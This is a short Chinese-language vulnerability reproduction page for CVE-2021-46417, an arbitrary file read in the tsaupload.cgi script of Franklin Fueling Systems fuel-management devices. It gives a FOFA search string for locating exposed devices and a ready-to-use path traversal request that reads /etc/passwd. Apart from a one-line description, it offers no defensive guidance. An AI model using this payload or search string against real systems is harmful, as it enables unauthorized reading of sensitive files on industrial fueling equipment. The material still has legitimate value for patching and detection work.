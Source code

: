 # Franklin Fueling Systems tsaupload.cgi 任意文件读取漏洞 CVE-2021-46417

## 漏洞描述

Franklin Electric Franklin Fueling Systems是美国Franklin Electric公司的一个加油系统。

Franklin Fueling Systems tsaupload.cgi 存在任意文件读取漏洞，攻击者通过漏洞可以获取服务器敏感文件。

## 漏洞影响

```
Franklin Fueling Systems
```

## FOFA

```
"Franklin Fueling Systems"
```

## 漏洞复现

主页面

![image-20220715105504364](./images/202207151055481.png)

验证POC

```
/cgi-bin/tsaupload.cgi?file_name=../../../../../../etc/passwd&password=
```

![image-20220715105538276](./images/202207151055335.png)

